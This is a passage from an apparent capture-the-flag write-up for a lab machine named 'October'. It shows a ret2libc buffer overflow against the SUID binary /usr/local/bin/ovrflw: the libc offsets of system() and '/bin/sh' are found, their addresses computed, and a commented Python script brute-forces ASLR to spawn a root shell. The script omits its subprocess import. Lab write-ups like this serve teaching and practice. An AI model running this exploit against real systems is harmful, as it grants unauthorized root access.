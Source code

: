 ```shell-session
objdump -TC /lib/i386-linux-gnu/libc.so.6 | grep " system$"
```

![img](/images/october-writeup/27.png)

0x00040310 is the offset from the base address of libc where system will be loaded, so in order to obtain the absolute address we must add the two:

```shell-session
system_address = 0xb75e8000 + 0x00040310 = 0xb7628310
```

Only thing left to obtain is the address of the "/bin/sh" string, which the strings command can find for us:

```shell-session
strings -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

![img](/images/october-writeup/28.png)

And again this is just an offset, so for the full address we make another addition:

```shell-session
string_address = 0xb75e8000 + 0x00162bac = 0xb774abac
```
---

## Writing the exploit: putting it all together

Now that we have all this information we can finally write our exploit, which I have commented as best as I could:

```python
import struct
# address of system():
system_address = struct.pack("<I", 0xb7628310)
# junk return address, this is where execution will start
# when we close our shell, so it's none of our business
return_address = struct.pack("<I", 0xaabbccdd)
# address of /bin/sh:
string_address = struct.pack("<I", 0xb774abac)

# fill the buffer with junk and add all the parameters on top:
buffer = "A" * 52
buffer += system_address
buffer += return_address
buffer += string_address

tries = 0
# start an infinite loop to bruteforce the address:
while True:
	tries += 1
	# print the current number of tries every 10 attempts:
	if tries % 10 == 0:
		print "Attempts made: " + str(tries)
	# call the vulnerable program with our buffer as its only argument:
	subprocess.call(["/usr/local/bin/ovrflw", buffer])
	# once the address is bruteforced successfully the loop will stop
	# and we will have access to a root shell thanks to the SUID bit
```
